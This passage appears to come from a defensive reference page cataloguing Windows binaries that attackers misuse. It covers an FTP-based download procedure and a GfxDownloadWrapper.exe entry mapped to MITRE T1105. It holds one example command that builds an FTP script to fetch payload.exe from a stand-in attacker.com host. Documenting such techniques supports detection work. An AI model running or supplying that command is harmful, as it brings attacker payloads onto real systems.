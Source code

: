 
 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`cmd.exe /c &#34;@echo open attacker.com 21&gt;ftp.txt&amp;@echo USER attacker&gt;&gt;ftp.txt&amp;@echo PASS PaSsWoRd&gt;&gt;ftp.txt&amp;@echo binary&gt;&gt;ftp.txt&amp;@echo GET /payload.exe&gt;&gt;ftp.txt&amp;@echo quit&gt;&gt;ftp.txt&amp;@ftp -s:ftp.txt -v&#34;`|Download|


 

#### Search Queries


> Analytic Goes Here!


 
## GfxDownloadWrapper.exe

Remote file download used by the Intel Graphics Control Panel, receives as first parameter a URL and a destination file path.

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1105</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>Download</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows 10</li></ul></div>|